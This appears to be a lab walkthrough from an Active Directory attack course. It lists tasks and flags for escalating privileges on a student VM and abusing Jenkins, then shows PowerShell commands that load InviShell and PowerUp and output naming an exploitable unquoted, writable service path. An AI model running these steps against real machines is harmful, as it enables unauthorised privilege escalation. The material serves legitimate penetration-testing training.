 ```yaml
---
description: Learning Object 5
icon: vial
---
```


# 5 - LO 5️

## Tasks



1 - Exploit a service on dcorp-studentx and elevate privileges to local administrator

2 - Identify a machine in the domain where studentx has local administrative access

3 - Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server

Flag 5 \[Student VM] - Service abused on the student VM for local privilege escalation  🚩

Flag 6 \[Student VM] - Script used for hunting for admin privileges using PowerShell Remoting 🚩

Flag 7 \[dcorp-ci] - Jenkins user used to access Jenkins web console 🚩

Flag 8 \[dcorp-ci] - Domain user used for running Jenkins service on dcorp-ci 🚩



## Solutions

### 1 - Exploit a service on dcorp-studentx and elevate privileges to local administrator

Start InviShell and PowerUp

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerUp.ps1
```

Now we need to exploit a service and elevate privileges to local administrator, using `Invoke-AllChecks` method we're able to display all services vulnerable with "CanRestart: True", "Check: Modifiable Services", and"Unquoted Service Paths" with relatives abuse function to exploit them

```powershell
Invoke-AllChecks
```

```powershell
ServiceName    : AbyssWebServer
Path           : C:\WebServer\Abyss Web Server\abyssws.exe -service
ModifiablePath : @{ModifiablePath=C:\WebServer; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AbyssWebServer' -Path <HijackPath>
CanRestart     : True
Name           : AbyssWebServer
Check          : Unquoted Service Paths

ServiceName    : AbyssWebServer
Path           : C:\WebServer\Abyss Web Server\abyssws.exe -service
ModifiablePath : @{ModifiablePath=C:\WebServer; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AbyssWebServer' -Path <HijackPath>
CanRestart     : True
Name           : AbyssWebServer
```